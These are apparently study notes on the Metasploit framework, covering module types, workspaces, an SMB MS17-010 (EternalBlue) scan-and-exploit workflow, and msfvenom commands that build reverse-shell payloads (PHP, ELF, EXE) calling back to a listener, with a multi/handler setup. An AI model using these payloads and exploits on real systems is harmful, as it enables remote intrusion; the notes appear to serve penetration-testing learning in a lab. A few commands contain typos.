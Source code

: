 Exploitation Framework


```bash
# start metasploit
msfconsole
# list directory structure
tree -L 1 INSTALL_DIR/embedded/framwork/modules
```

### Modules
Metasploit works by modules context
- auxiliary
- encoders
- evasion
- exploits 
- nops
- payloads
- post

```bash
# options
show options

# use a particular exploit/payload/auxiliary/post
use exploit/windows/smb/ms17_0010_eternalblue

# dynamic search command
```


- The `scanner/discovery/udp_sweep` module will allow you to quickly identify services running over the UDP (User Datagram Protocol).
### Workspaces
Metasploit has a database function to simplify project management and avoid possible confusion when setting up parameter values.

```bash
# ADDING A WORKSPACE
msf6> workspace -a "workspace_name"
```

### Example Workflow
```bash
msf6 > use auxiliary/scanner/smb/smb_ms17_010
msf6 > hosts -R
msf6 > show options
msf6 > db_map 
msf6 > run
msf6 > exploit
# SERVICES STORED IN THE MSF DATABASE
msf6 > services -S netbios
```
### msfvenom
allows to generate payloads for all major Operating Systems, has access to all payloads 

```bash
#list payloads
msfvenom -l payloads
# list formats
msfvenom --list formats
# use base64 encoding
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.186.44 -f raw -e php/base64
```

### handlers 
intercept incoming communications generated by the MSFvenom payloads


```bash
msfvenom -p php/reverse_php LHOST=10.0.2.19 LPORT=7777 -f raw > reverse_shell.php
#multihandler that is compatible with all payloads as well as regular shells
use exploit/multi/handler

# linux executlable in the elf format(exe in windows)
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
# windows executable
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe


```